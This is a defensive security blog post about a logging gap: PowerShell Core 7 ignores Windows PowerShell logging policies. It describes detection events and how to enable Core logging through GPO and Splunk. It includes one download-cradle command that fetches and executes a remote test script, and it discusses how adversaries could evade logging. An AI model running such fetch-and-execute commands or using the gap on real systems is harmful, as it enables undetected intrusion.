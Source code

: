```yaml
---
title: "PowerShell Core Logging Observations" 
layout: post
---
```


In my [Active Directory lab]({% post_url 2020-04-11-active-directory-lab%}), I've got PowerShell Module Logging and Script Block Logging enabled. I used the [settings recommended by the Australian Signals Directorate][asd-guidance] when configuring the GPO. So I was surprised to find that after executing a download crade via PowerShell 7 there was nothing in the PowerShell logs to detect this activity, while running the exact same command in PowerShell 5.1 resulted in the command being logged, EventID 4104.

It turns out that PowerShell Core does not inherit the logging settings of built-in PowerShell. This could represent a possible gap in logging that an adversary can take advantage of by installing PowerShell Core and executing commands through it, rather than built-in PowerShell or cmd.exe.

### Download cradle I ran on both PowerShell Core and built-in PowerShell
```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1')
```

## What is PowerShell Core?
* Open-source, cross-platform version of PowerShell built on top of .NET Core.
* Not currently shipped with Windows, [must be installed][core-installinstructions].
* Does not replace built-in PowerShell, they run side-by-side.
* Per the [PowerShell Core 7 Dev Blog][ps-devblog], "we consider PowerShell 7 and beyond to be the one, true PowerShell going forward."

## PowerShell Core Installation Detections
During the installation of PowerShell Core 7, there were a few events logged that looked like good candidates to use for detection purposes:
* Two events for Sysmon, EventID 11:
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.dll'
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.exe'
* Command line entry in both WinEvent, EventID 4688,  and Sysmon, EventID 1, log:
    * CommandLine: '"C:\Program Files\PowerShell\7\pwsh.exe" -NoProfile -ExecutionPolicy Bypass -File "C:\Program Files\PowerShell\7\RegisterManifest.ps1"' 

## Enable PowerShell Core Logging to Splunk
1. Add the following stanza to `$SPLUNK_HOME/etc/deployment-apps/Splunk_TA_windows/local/inputs.conf` on the deployment server:
```
[WinEventLog://PowerShellCore/Operational]
disabled = 0
renderXml = 0
```
2. Reload deployment server
3. Restart SplunkForwarder service on applicable clients

## Default PowerShell Core WinEvent Logs
These are the default logs that were ingested into Splunk prior to configuring a GPO for PowerShell Core specific logging:

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_pre_gpo.png">
</p>

## [Configure PowerShell Core Logging via GPO][gpo-guidance]
1. Obtain `PowerShellCoreExecutionPolicy.adml` and `PowerShellCoreExecutionPolicy.admx` by either:
    * Installing PowerShell 7 via [msi][core-release] on a host then retrieving the files from `C:\Program Files\PowerShell\7\`
        * or
    * Downloading the [zip][core-release] file and retrieving the files from the archive.
1. Add the files to the [AD Central Store][ad-centralstore]:
2. In Group Policy Management Console: Computer Configuration -> Administrative Templates -> Powershell Core
    * Turn on Module Logging
    * Turn on PowerShell Script Block Logging

## Post-GPO PowerShell Core Logs
These are the logs that were ingested into Splunk after configuring GPO for PowerShell Core logging (not all, some filtered out for brevity):

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_post_gpo.png">
</p>

## Conclusion
As PowerShell is used as one of the top Mitre ATT&CK techniques, [Red Canary 2020 Threat Detection Report][redcanary-report] and [FireEye M-Trends 2020 pdf page 20][fireeye-mtrends], I believe it would be prudent to configure detections for PowerShell Core being installed and leveraged - even if you're not currently using PowerShell Core in your environment - so that when it shows up, you will know.

[asd-guidance]:		        https://www.cyber.gov.au/publications/windows-event-logging-and-forwarding
[core-installinstructions]: https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-windows?view=powershell-7
[ps-devblog]:               https://devblogs.microsoft.com/powershell/announcing-PowerShell-7-0/
[gpo-guidance]: 	        https://docs.microsoft.com/en-us/powershell/scripting/whats-new/migrating-from-windows-powershell-51-to-powershell-7?view=powershell-7#group-policy-supported
[ad-centralstore]:	        https://support.microsoft.com/en-us/help/3087759/how-to-create-and-manage-the-central-store-for-group-policy-administra
[core-release]:		        https://github.com/PowerShell/PowerShell/releases
[redcanary-report]:         https://redcanary.com/threat-detection-report/techniques/
[fireeye-mtrends]:          https://content.fireeye.com/m-trends/rpt-m-trends-2020
